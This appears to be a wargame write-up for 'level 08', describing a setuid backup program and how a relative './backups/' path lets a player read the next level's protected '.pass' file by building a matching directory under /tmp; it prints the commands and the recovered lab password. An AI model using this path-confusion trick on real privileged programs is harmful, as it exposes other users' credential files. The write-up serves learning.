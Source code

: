 ## LEVEL 08
---
### For a better understanding of the levels and the solutions, I recommend you to read the [disassemble file](./asm/level08.asm) and the [source file](./src/level08.c). This README only contains the most important parts to solve the level.
---
### Security
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Full RELRO      Canary found      NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level08/level08
```
In this level NX is disabled, so we can execute shellcode from the stack. But we not going to need it.
---

It seems that the last level is one of the easiest levels. I will take the time to explain what this binary does.

This executable is a backup program. It takes a file as an argument and copies it to the `./backups/` directory. The program first checks if the number of arguments is 2. If it's not, it prints the usage and exits. Then, it opens the `./backups/.log` file and writes `Starting back up: <argument>` to it. The `<argument>` part is a format string, indicating the presence of a vulnerability. After that, it opens the file provided as an argument and copies it to a file in the `./backups/` directory with the same name.

Perfect! Let's proceed with the first input that comes to my mind, using the path of the `pass` file from `level09` as the first argument.

```
$ ./level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
```

Ok so we cannot open the file because the directory `./backups/home/users/level09/` does not exist. And we cannot create it because we don't have the permission to do so. To solve this error we need to focus on a line in the source code.

```c
strcpy(local_70, "./backups/");
```

This line shows us that the third open use a relative path not a absolute path. So if we can a directory like this : `./backups/home/users/level09/`.
Then we can run this executable with the argument `/home/users/level09/.pass` and it will create the file `./backups/home/users/level09/.pass`. This would work because our argument is a absolute path.

```shell
$ mkdir -p /tmp/backups/home/users/level09
$ cd /tmp
$ ~/level08 /home/users/level09/.pass
$ cat backups/home/users/level09/.pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```

